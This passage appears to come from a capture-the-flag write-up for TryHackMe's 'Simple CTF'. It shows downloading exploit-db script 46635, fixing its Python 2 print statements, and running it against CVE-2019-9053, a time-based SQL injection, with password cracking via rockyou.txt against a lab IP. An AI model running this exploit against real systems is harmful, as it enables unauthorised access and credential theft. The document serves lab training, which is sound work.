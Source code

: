 ```bash
--2023-07-02 12:12:57--  https://www.exploit-db.com/raw/46635
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6456 (6.3K) [text/plain]
Saving to: ‘46635.1’

46635.1                      100%[==============================================>]   6.30K  --.-KB/s    in 0s      

2023-07-02 12:12:58 (40.4 MB/s) - ‘46635.1’ saved [6456/6456]
```
9. `cd ~/Downloads` to change to th
10. `ls`
```bash
┌──(kali㉿kali)-[~]
└─$ cd ~/Downloads
```
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ ls
46635              
```

# Vulnerability Exploitation
> Exploiting CVE-2019-9053
11. `python 46635` to execute the exploit, which ended outputting an error message onto our terminal saying that our script contains some syntax errors
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python 46635                                                       
  File "/home/kali/Downloads/46635.py", line 25
    print "[+] Specify an url target"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```
12. `gedit python 46635` to open up the Python script, which we'll then go ahead and add parantheses for every print command that's missing one (Lines 25, 26, 27, 28, 63, 69, and 183) as well as change it from using the **python** interpreter (#!/usr/bin/env **python**
) to the **python3** interpreter (#!/usr/bin/env **python3**)
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ gedit 46635
```

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20Simple%20CTF/Editing%2046635.py.png)

13. `python 46635` to execute the exploit again, which ended up outputting an error onto our terminal saying that we're missing the required arguments needed for the script to be able to successfully execute
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python 46635   
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```
14. `python 46635 -u http://{TARGET IP}/simple --crack -w {WORDLIST PATH}`
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 46635 -u http://10.10.130.66/simple --crack -w rockyou.txt

```